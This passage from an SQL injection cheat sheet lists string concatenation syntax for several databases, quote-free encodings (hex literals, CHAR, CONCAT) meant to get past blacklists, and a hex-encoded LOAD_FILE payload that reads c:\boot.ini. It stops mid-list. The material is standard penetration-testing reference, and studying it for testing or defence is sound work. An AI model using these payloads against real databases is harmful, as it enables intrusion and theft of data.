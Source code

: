 String related operations. These can be quite useful to build up injections which are not using any quotes, bypass any other black listing or determine back end database.

#### String Concatenation

- `+` (S)

`SELECT login + '-' + password FROM members`

- `||` (*MO)

`SELECT login || '-' || password FROM members`
***About MySQL "||";**

If MySQL is running in ANSI mode it's going to work but otherwise MySQL accept it as `logical operator` it'll return 0. A better way to do it is using `CONCAT()`function in MySQL.

- `CONCAT(str1, str2, str3, ...)` (M)

Concatenate supplied strings.
`SELECT CONCAT(login, password) FROM members`

### Strings without Quotes

These are some direct ways to using strings but it's always possible to use `CHAR()`(MS) and `CONCAT()`(M) to generate string without quotes.

- `0x457578` (M) - Hex Representation of string

`SELECT 0x457578`
This will be selected as string in MySQL.

In MySQL easy way to generate hex representations of strings use this;
`SELECT CONCAT('0x',HEX('c:\\boot.ini'))`

- Using `CONCAT()` in MySQL

`SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77))` (M)
This will return 'KLM'.

- `SELECT CHAR(75)+CHAR(76)+CHAR(77)` (S)

This will return 'KLM'.

- `SELECT CHR(75)||CHR(76)||CHR(77)` (O)

This will return 'KLM'.

- `SELECT (CHaR(75)||CHaR(76)||CHaR(77))` (P)

This will return 'KLM'.

#### Hex based SQL Injection Samples

- `SELECT LOAD_FILE(0x633A5C626F6F742E696E69)` (M)

This will show the content of **c:\boot.ini**

### String Modification & Related

- `ASCII()` (SMP)
